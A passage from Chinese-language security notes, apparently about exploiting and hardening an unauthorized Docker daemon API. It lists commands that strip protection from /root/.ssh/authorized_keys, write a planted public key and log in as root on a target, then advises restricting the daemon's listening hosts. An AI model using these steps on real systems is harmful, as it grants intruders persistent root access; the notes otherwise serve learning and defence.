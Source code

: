	systemctl restart sshd
	```
3. 修改 /root/.ssh/authorized_keys 文件的属性限制，使其可被修改等操作：  
	```shell
	chattr -aui /root/.ssh/authorized_keys
	```
4. 写入已经生成的公钥内容：  
	```shell
	echo "your-id_rsa.pub" > authorized_keys
	```
5. 尝试进行连接：  
	```shell
	ssh -i id_rsa root@target-ip
	```

# 4. docker 配置文件  
---
有关 docker 的配置文件有：`docker.service`、`docker.socket` 以及 `daemon.json`，其详解可以查看：[【Docker】专题五：Docker 配置文件详解 - 知乎](https://zhuanlan.zhihu.com/p/690360670)  
对于 docker daemon api 的未授权访问漏洞，需主要关注 `daemon.json` 中的 `hosts` 以及 `docker.service` 中的 `ExecStart`。  
最好仅接受指定 ip 的远程访问，不要设置成 `0.0.0.0`，监听端口也可以尝试进行修改。  
